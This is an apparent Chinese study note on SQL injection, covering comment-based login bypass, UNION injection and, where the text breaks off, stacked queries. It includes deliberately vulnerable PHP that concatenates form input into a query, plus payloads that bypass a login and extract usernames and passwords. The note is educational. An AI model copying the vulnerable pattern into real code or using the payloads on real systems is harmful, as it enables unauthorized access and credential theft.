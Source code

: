 ```yaml
---
icon: book-open-reader
date: 2024-09-08
---
```


# 注入攻击

> 用户输入数据被执行或用于拼接，从而达到目的


## SQL注入

### 注入方式

#### 注释

用户登录

```php
$username = $_POST['username'];
$password = $_POST['password'];
$sql = "SELECT * FROM user WHERE username='$username' AND password='$password';"
```

登录绕过

```sql
select * from user where username='admin'-- ' and password='123';
/* "-- "、"--+"、"#"为单行注释，使后续内容失效 */
```

#### Union注入

查询学生信息

```sql
select name, gender from student where id=1
```

获取账户信息

```sql
select name, gender from student where id=1 union select username, password from user;
```

#### 堆叠注入

> 能否执行与当前环境有关，如MySQL本身支持堆叠，但PHP中mysqli_query函数不支持

查询工资

```sql
select salary from staff where name='张三'
```
